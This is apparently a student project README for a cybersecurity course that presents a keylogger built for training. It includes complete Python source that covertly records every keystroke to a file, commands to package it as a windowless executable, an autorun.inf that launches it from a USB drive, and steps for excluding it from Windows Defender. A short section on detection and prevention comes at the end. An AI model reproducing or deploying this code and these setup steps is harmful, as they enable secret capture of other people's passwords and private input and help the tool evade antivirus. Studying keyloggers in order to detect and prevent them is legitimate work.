 # **Keylogger Project for Cybersecurity Training**  

### **By:** Bilal Sihadi & Mohamed Rouabhi  
### **Course:** CIS 260  
### **Professor:** MD Ali  

---

## 📌 **Project Overview**  
This project is about developing a **keylogger** for **educational and ethical use** in cybersecurity training. The goal is to understand how keyloggers work, how they can capture sensitive data, and how to detect and prevent them.  

⚠ **Important:** This project is **only for learning purposes**. Using keyloggers without permission is illegal. Always follow ethical hacking guidelines.  

---

## 🎯 **Project Goals**  
- ✅ Build a **software-based keylogger** using **Python**.  
- ✅ Deploy a **USB-based keylogger** that runs when plugged into a computer.  
- ✅ Study how keyloggers work on **Windows and Linux**.  
- ✅ Research and test **detection & prevention methods**.  

---

##  **Features**  
### **🔹 Software Keylogger**  
- Records **all keystrokes** (letters, numbers, special keys).  
- Saves logs **locally** with **timestamps**.  
- Works on **Windows & Linux**.  
- Can run in **stealth mode**.  

### **🔹 USB-Based Keylogger (Software Approach)**  
- Runs automatically when plugged into a Windows machine.  
- Stores captured keystrokes on the USB drive.  
- Uses **Python and AutoRun scripts**.  
- No need for special hardware.  

---

##  **How to Install & Run**  

### **1️⃣ Software Keylogger (Python)**  
#### **Requirements:**  
- Python 3.13  
- Required library: `pynput`  

#### **Installation:**  
```sh
pip install pynput
```

#### **Keylogger Code (Python)**  
Copy and save the following code as **keylogger.py**:

```python
from pynput import keyboard   # Import the keyboard listener from the pynput library
from datetime import datetime   # Used to timestamp each keypress
import time    # Used to keep the script running
def keyPressed(key):    # Handles key press events, logs the key pressed along with the timestamp.
     with open("keyfile.txt", 'a') as logKey:  # Open the log file in append mode so previous keystrokes are not overwritten
         try:
             # Log regular character (letters, numbers) 
             logKey.write(f"{datetime.now()} - {key.char}\n")
         except AttributeError:
             # Log special keys (like Enter, Shift, etc.) with timestamp in brackets
             logKey.write(f"{datetime.now()} - [{key.name}]\n")
 
if __name__ == "__main__":
     # Start listening for key presses
     listener = keyboard.Listener(on_press=keyPressed)
     listener.start()  # Start listening
     # Keep the script running quietly in the background
     while True:
         time.sleep(1) # Sleep to prevent high CPU usage
```

#### **Run the Keylogger:**  
```sh
python keylogger.py
```
- The script will record all keystrokes and store them in **keyfile.txt**.  

---

### **2️⃣ USB Keylogger Setup (Windows - Software-Based)**  
This method turns a normal USB drive into a **portable keylogger** that starts when plugged into a Windows computer.  

#### **Step 1: Convert the Keylogger to an Executable**  
To run without needing Python installed, convert it into an **EXE file**:  
```sh
pip install pyinstaller
pyinstaller --onefile --noconsole keylogger.py
```
- This will create an EXE file in the `dist/` folder.  
- Move `dist/keylogger.exe` to the USB drive.  

---

#### **Step 2: Create an Autorun Script**  
1. Open Notepad and paste the following:  
   ```ini
   [Autorun]
   open=keylogger.exe
   action=Open folder to view files
   ```
2. Save this as **autorun.inf** on the USB drive.  

---

#### **Step 3: Plug the USB Into a Windows Computer**  
- If **AutoRun** is enabled, `keylogger.exe` will start running in the background.  
- If not, manually open the USB and **run keylogger.exe**.  

---

## 📄 Example Output

The keylogger stores keystrokes with timestamps in a file named `keyfile.txt`.  
Below is a sample snippet of the output:

![ccc](https://github.com/user-attachments/assets/33b01b86-f41e-443c-ac4b-6cea9582a52c)


---
## 🔐 Windows Defender Exclusion

To prevent automatic deletion during testing:

1. Open **Windows Security**
2. Go to **Virus & threat protection** → **Manage settings**
3. Scroll down to the **Exclusions** section
4. Click **Add or remove exclusions**
5. Add:
   - The `.exe` file (e.g., `keylogger.exe`)
     
> ⚠️ This step is important because antivirus software (especially Windows Defender) will likely detect and remove your keylogger.

---

## 🛡️ How to Detect & Prevent Keyloggers

Keyloggers can be hidden in software or hardware. Below are steps to help detect and prevent them:

- **Disable AutoRun & AutoPlay**  
  Prevents automatic execution from USB or external media.

- **Use Antivirus & Endpoint Security**  
  Scan for known keylogger signatures and behavior.

- **Monitor Running Processes**  
  Identify unusual or suspicious tasks using Task Manager or `ps`.

- **Encrypt Sensitive Keystrokes**  
  Use tools or secure input fields that protect against keylogging.

- **Check for USB-Based Devices**  
  Inspect physical USB connections. Use device control policies to block unauthorized peripherals (e.g., USBGuard, Windows Group Policy).
  
---

##  **Ethical Considerations**  
- This project is for **learning and research only**.  
- Testing is done in a **controlled environment** (no real user data).  
- Always get **permission** before using keyloggers.  

---

##  **Expected Outcomes**  
- A **fully working keylogger** for **ethical training**.  
- A report on **how to detect and prevent keyloggers**.  
- A better understanding of **cybersecurity threats**.  

---

##  **Contributors**  
  **Bilal Sihadi**  
  **Mohamed Rouabhi**  

---

##  **License**  
This project is licensed under the **MIT License** - see the [LICENSE](LICENSE) file for details.


